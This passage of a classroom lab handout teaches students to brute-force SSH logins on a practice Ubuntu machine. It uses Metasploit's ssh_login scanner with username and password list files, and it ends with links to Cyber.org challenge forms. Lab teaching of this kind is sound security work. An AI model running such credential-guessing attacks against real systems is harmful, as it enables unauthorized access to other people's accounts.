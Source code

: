 
## **Part 2: SSH into Another Computer with an Unknown Password**  

### **Before You Start**  

#### **Kali - Files Required:**  
- Password list in a text file  
- Username list in a text file  

#### **Ubuntu - Setup Steps:**  

- **Pre-step 1:** Change Default Password (For Practice on Your Own)   
On the **Ubuntu target machine**, open a terminal and type:  
```bash
sudo passwd root
```    
- **Pre-step 2:** Turn on the password authentication for your Ubuntu Machine (see above)    
- **Pre-step 3:** Create a new user with your student name on the ubuntu machine (e.g. jboyce1) and set the password to a password on the password list you are using
- 
#### **Kali - Attack Steps:**
**Step 1:** Attempt to ssh the target machine to ensure that it has password authentication turned on (see setting up SSH server on target machine), after 3 failures the permission will be denied.  
**Step 2:** Ensure you are in root for your Kali box by using the following command:  
`sudo su` 
Step 3: To open the Metaspoitconsole run the following command:  
`msfconsole`  
**Step 4:** Open the ssh login scanner  
 - 4a: Use the following command to see all the possibilities of the Metasploit console dealing with SSH:  
`msf6 > search ssh`  
 - 4b:  `msf6 > use auxiliary/scanner/ssh/ssh_login`  
 - 4c:  `msf6 > show options`  
**Step 5:** Set the ssh_login tool to target the vulnerable machine   
 - 5a `msf6 > set RHOSTS 192.168.XX.XX` (vulnerable machine address)   
 - 5b`msf6 > set PASS_FILE /home/kali/Desktop/passwords.txt` (path of the passwords text file)   
 - 5c `msf6 > set USER_FILE /home/kali/Desktop/usernames.txt` (path of the usernames text file)   
 - 5d `msf6 > set VERBOSE true` (it will show the exactly matched combination of username and password) 
**Step 6** Check all of your options to ensure they look the way you want    
`msf6 > show options`
**Step 7:** Run and get some coffee (this takes some time, because it is an online brute force!)    
`msf6 > run`   

## **Challenges in Cyber.org (Must Be Set Up Ahead of Time)**  

- [Guest/Target (1)](https://forms.office.com/Pages/ResponsePage.aspx?id=mhxxjxzsu023kLsMdxsdzM6J33C5yQRJgc1SHWy_64dUQ01ZQjZNWjdYNEhKVkM3RjczRzIzM1RUTS4u)  
- [Guest/Target (2)](https://forms.office.com/Pages/ResponsePage.aspx?id=mhxxjxzsu023kLsMdxsdzM6J33C5yQRJgc1SHWy_64dUQVE5SVVUTVQ4RVc3VjdFOE1JWUgzOFVBRS4u)  
- [Guest/Target (3)](https://forms.office.com/Pages/ResponsePage.aspx?id=mhxxjxzsu023kLsMdxsdzM6J33C5yQRJgc1SHWy_64dUOVQxMDUzRE9TR0Q4SjlKMVZVR1haSlg1RC4u)  
